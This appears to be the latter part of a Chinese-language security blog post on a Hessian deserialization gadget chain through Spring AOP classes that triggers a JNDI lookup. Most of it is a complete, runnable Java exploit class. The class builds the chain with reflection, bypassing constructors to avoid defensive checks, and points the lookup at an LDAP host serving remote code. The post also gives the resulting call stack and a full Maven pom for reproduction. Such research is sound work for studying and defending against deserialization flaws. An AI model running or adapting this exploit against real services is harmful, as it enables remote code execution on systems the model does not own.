
```java
@Nullable
public Class<?> getType(String name) throws NoSuchBeanDefinitionException {
    try {
        return this.doGetType(name);
    } catch (NameNotFoundException var3) {
        throw new NoSuchBeanDefinitionException(name, "not found in JNDI environment");
    } catch (NamingException var4) {
        return null;
    }
}
```

查看 doGetType 方法



可以触发 lookup 方法，但是这里有一些需要注意的点，Spring框架的许多类会在构造方法中进行安全校验或初始化操作，所以这里用到一个方法

```java
// 创建实例但是不触发构造方法（避免有防御代码）
public static <T> T createWithoutConstructor(Class<T> clazz) throws Exception {
    return createWithConstructor(clazz, Object.class, new Class[0], new Object[0]);
}

public static <T> T createWithConstructor(Class<T> targetClass,
                                          Class<? super T> constructorClass,
                                          Class<?>[] argTypes,
                                          Object[] args) throws Exception {
    Constructor<? super T> templateCons = constructorClass.getDeclaredConstructor(argTypes);
    templateCons.setAccessible(true);
    Constructor<?> fakeCons = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(targetClass, templateCons);
    fakeCons.setAccessible(true);
    return (T) fakeCons.newInstance(args);
}
```

而且使用 getField 方法，而不是直接 getDeclaredField，这样可以从父类去查找，然后再用 Xstring 串起来即可

```java
package org.hessian.gadget;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class springConetextAopExp {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:1389/#Eval";

        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();

        AspectInstanceFactory beanFactoryAspectInstanceFactory = createWithoutConstructor(BeanFactoryAspectInstanceFactory.class);
        setFieldValue(beanFactoryAspectInstanceFactory, "beanFactory", simpleJndiBeanFactory);
        setFieldValue(beanFactoryAspectInstanceFactory, "name", url);

        AbstractAspectJAdvice aspectJAroundAdvice = createWithoutConstructor(AspectJAroundAdvice.class);
        setFieldValue(aspectJAroundAdvice, "aspectInstanceFactory", beanFactoryAspectInstanceFactory);

        AspectJPointcutAdvisor aspectJPointcutAdvisor = createWithoutConstructor(AspectJPointcutAdvisor.class);
        setFieldValue(aspectJPointcutAdvisor, "advice", aspectJAroundAdvice);

        String PartiallyComparableAdvisorHolder = "org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder";
        Class<?> aClass = Class.forName(PartiallyComparableAdvisorHolder);
        Object partially = createWithoutConstructor(aClass);
        setFieldValue(partially, "advisor", aspectJPointcutAdvisor);

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(partially);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(new XString("aaa"));

        HashMap hashMap = new HashMap();
        hashMap.put(targetSource1, "aaa");
        hashMap.put(targetSource2, "bbb");

        byte[] data =serialize(hashMap);
        unserialize(data);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(obj);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }

    // 创建实例但是不触发构造方法（避免有防御代码）
    public static <T> T createWithoutConstructor(Class<T> clazz) throws Exception {
        return createWithConstructor(clazz, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor(Class<T> targetClass,
                                              Class<? super T> constructorClass,
                                              Class<?>[] argTypes,
                                              Object[] args) throws Exception {
        Constructor<? super T> templateCons = constructorClass.getDeclaredConstructor(argTypes);
        templateCons.setAccessible(true);
        Constructor<?> fakeCons = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(targetClass, templateCons);
        fakeCons.setAccessible(true);
        return (T) fakeCons.newInstance(args);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = getField(obj.getClass(),field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static Field getField(Class<?> clazz, String fieldName) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null) return field;
        } catch (NoSuchFieldException e) {
            if (clazz.getSuperclass() != null) {
                return getField(clazz.getSuperclass(), fieldName);
            }
        }
        throw new NoSuchFieldException(fieldName);
    }
}
```

调用栈

```java
at org.springframework.jndi.JndiTemplate.lookup(JndiTemplate.java:156)
at org.springframework.jndi.JndiTemplate.lookup(JndiTemplate.java:178)
at org.springframework.jndi.JndiLocatorSupport.lookup(JndiLocatorSupport.java:96)
at org.springframework.jndi.support.SimpleJndiBeanFactory.doGetType(SimpleJndiBeanFactory.java:236)
at org.springframework.jndi.support.SimpleJndiBeanFactory.getType(SimpleJndiBeanFactory.java:193)
at org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory.getOrder(BeanFactoryAspectInstanceFactory.java:136)
at org.springframework.aop.aspectj.AbstractAspectJAdvice.getOrder(AbstractAspectJAdvice.java:223)
at org.springframework.aop.aspectj.AspectJPointcutAdvisor.getOrder(AspectJPointcutAdvisor.java:81)
at org.springframework.aop.aspectj.autoproxy.AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder.toString(AspectJAwareAdvisorAutoProxyCreator.java:151)
at com.sun.org.apache.xpath.internal.objects.XString.equals(XString.java:392)
at org.springframework.aop.target.HotSwappableTargetSource.equals(HotSwappableTargetSource.java:104)
at java.util.HashMap.putVal(HashMap.java:634)
at java.util.HashMap.put(HashMap.java:611)
at com.caucho.hessian.io.MapDeserializer.readMap(MapDeserializer.java:114)
at com.caucho.hessian.io.SerializerFactory.readMap(SerializerFactory.java:577)
at com.caucho.hessian.io.Hessian2Input.readObject(Hessian2Input.java:2093)
at org.hessian.gadget.springConetextAopExp.unserialize(springConetextAopExp.java:66)
at org.hessian.gadget.springConetextAopExp.main(springConetextAopExp.java:51)
```

完整的 pom.xml 如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>TwiceReadObject</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <spring.version>5.0.0.RELEASE</spring.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.caucho</groupId>
            <artifactId>resin</artifactId>
            <version>4.0.64</version>
            <exclusions>
                <exclusion>
                    <groupId>com.caucho</groupId>
                    <artifactId>javaee-16</artifactId>
                </exclusion>
            </exclusions>
        </dependency>
      
        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.7</version>
        </dependency>
        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjrt</artifactId>
            <version>1.9.7</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.28.0-GA</version>
        </dependency>
      
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-naming</artifactId>
            <version>4.26</version>
        </dependency>

        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
        
        <dependency>
            <groupId>com.caucho</groupId>
            <artifactId>hessian</artifactId>
            <version>4.0.66</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>${spring.version}</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context</artifactId>
            <version>${spring.version}</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-web</artifactId>
            <version>${spring.version}</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-webmvc</artifactId>
            <version>${spring.version}</version>
        </dependency>
      
        <dependency>
              <groupId>javax.servlet</groupId>
              <artifactId>javax.servlet-api</artifactId>
              <version>4.0.1</version>
              <scope>provided</scope>
        </dependency>

    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <configuration>
                    <excludes>
                        <exclude>org/example/resin/**</exclude>
                    </excludes>
                </configuration>
            </plugin>
            
        </plugins>
    </build>
</project>
```

> https://xz.aliyun.com/news/17603
>
> https://www.javasec.org/java-vuls/Hessian.html
>
> https://changeyourway.github.io/2025/02/20/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/
>
> https://goodapple.top/archives/1193
